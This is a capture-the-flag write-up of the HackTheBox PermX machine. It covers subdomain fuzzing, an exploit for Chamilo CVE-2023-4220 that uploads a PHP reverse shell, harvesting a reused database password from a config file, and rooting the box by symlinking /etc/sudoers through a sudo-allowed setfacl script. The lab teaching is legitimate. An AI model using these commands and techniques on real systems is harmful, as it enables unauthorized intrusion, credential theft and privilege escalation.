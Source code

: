 ```yaml
---
title: "HackTheBox: PermX"
date: "2024-11-02"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/permx/0-htb-permx.png)

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: ssh
- 80: http

Using the ports we can look deeper and verify the software versions:

- 22: OpenSSH 8.9p1
- 80: Apache httpd 2.4.52

![Image](assets/img/writeups/hackthebox/permx/1-nmap.png)

![Image](assets/img/writeups/hackthebox/permx/2-nmap-sv.png)

Lets take a look at that website!

### Enumeration - HTTP

(Note: quickly before we begin, let's add the host information to the `/etc/hosts` file)

![Image](assets/img/writeups/hackthebox/permx/7-hosts.png)

Now back to hacking:

![Image](assets/img/writeups/hackthebox/permx/3-http.png)

We see that it is some sort of eLearning website (as seen by the big logo!). I tried to poke around the links, but wasn't able to find any pages which really caught my eye. I decided to use some tools here which could help me out!

I used GoBuster first - this is one of my go-to web-enumeration tools.

(Note: the below command works because I put the permx IP address in the `/etc/hosts` file)

```sh
$ gobuster dir \
-w /usr/share/wordlists/dirbuster/directory-list-2-3.medium.txt \
- u http://permx.htb
```

Interestingly gobuster didn't really have so much information for us. At first glance, it appears as if these are just directories used for the data that is on the website. For example:

- `/img`
- `/css`
- `/lib`
- `/js`
- `/server-status` (notably this is HTTP 403 Forbidden, which is pretty standard)

![Image](assets/img/writeups/hackthebox/permx/4-gobuster.png)

It seems like GoBuster isn't able to help us out here in the directories. So the next step is to fuzz for subdomains! I haven't done this in a while, so I had to read up a bit on fuzzing for subdomains. I was quickly reminded about the tool `ffuf`.

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![Image](assets/img/writeups/hackthebox/permx/5-ffuf1.png)

We quickly see that practically all responses are 18 words. We're looking for the needle in the haystack here. Good thing is that we can filter by the amount of words in the response! (Use the `-fw` flag)

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![Image](assets/img/writeups/hackthebox/permx/6-ffuf-2.png)

Straight away we have a more useful response here. We have two subdomains:

1. `www`= `http://www.permx.htb`
2. `lms`= `http://lms.permx.htb`

The `lms` subdomain looks intersting. Let's check it out!

## Initial Exploit Shell

We have a couple of different paths that we could take here. For example we could try to brute-force the credentials, but it could take a while because we aren't aware of the username (beyond `administrator` which we see on the bottom right of the screenshot.).

![Image](assets/img/writeups/hackthebox/permx/8-lms.permx.htb.png)

In the end I decided to simply Google some vulnerabilities of the Chamilo LMS. The first page on Google shows a lot of links towards an unauthorized RCE vulnerability. The main one which we are looking at here is [`CVE-2023-4220`](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). There was a pretty handy GitHub repo with a prepared exploit ([GitHub Repo](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit)). I quickly prepared the [pentestmonkey phpreverseshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), and fired up the exploit:

```sh
./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 4444
```

![Image](assets/img/writeups/hackthebox/permx/9-init-shell.png)

## Post-Exploitation: Getting to the local user

Right now we are in a pretty basic shell as `www-data`. Basically my first hope here is to find some (re-used) credentials in the system. So I decided to find and check the contents of some configuration files, using this command:

```sh
find . -type f -name "*configuration*" 2>/dev/null
```

And we are presented with a load of configuration files within the Chamilo app. This is the one where the credentials were stored in:

```sh
./var/www/chamilo/app/config/configuration.php
```

![Image](assets/img/writeups/hackthebox/permx/10-search-configuration.png)

```php
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3386';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;
```

![Image](assets/img/writeups/hackthebox/permx/11-read-configuration.png)

I thought I would try my luck, and check if the password used here is re-used for the main user account. We quickly have to check the `/etc/passwd` file to find out the username.

![Image](assets/img/writeups/hackthebox/permx/12-read-etc-passwd.png)

And let's try to login wih SSH :)... Success! Time to escalate to root.

## Privilege Escalation

My first step is to use the good old [LinPEAS script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). Straight away this gives us a pretty big hint; mainly that the `mtz` user is allowed to execute the `/opt/acl.sh` script with root privileges, without the root password.

![Image](assets/img/writeups/hackthebox/permx/13-linpeas.png)

![Image](assets/img/writeups/hackthebox/permx/14-sudoL.png)

This is the code of that script:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

$ Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Basically, this script uses the `setfacl` binary to set permissions to a target file, all based on the command line arguments. The `setfacl` is executed in root context (`/usr/bin/sudo`) and can be executed without root password (as we saw in the `sudo -l` command).

Usage example (grant rwx permissions to alice for myfile.txt):

```sh
/opt/acl.sh alice rwx /home/mtz/myfile.txt
```

There are even some security features built into this script, so nothing can go wrong... ;)

1. Restricts operations to files in /home/mtz/.
2. Prevents directory traversal attacks.
3. Ensures the target is a valid file.

Anyways... enough kidding ourselves. It's time to hack!

The `setfacl` is a LOLBAS or [GTFOBin](https://gtfobins.github.io/gtfobins/setfacl/). Let's try to exploit it!

This took quite a bit of reading up for me, but this is what I came up with in the end. These are the steps:

1. Create a symlink file of the `/etc/sudoers` file, and name it `lolbas` within the mtz home directory.
2. Execute the script, adding rwx permissions to our symlink file (the goal is to be able to write to the `/etc/sudoers` file).
3. Edit the `lolbas` file (symlink of `/etc/sudoers`), and allow mtz user to execute sudo without password (seen in the screenshot below).
4. Escalate to root :)

![Image](assets/img/writeups/hackthebox/permx/15-edit-sudoers.png)

And that's it!

![Image](assets/img/writeups/hackthebox/permx/16-privesc_complete.png)

Thanks for reading :)
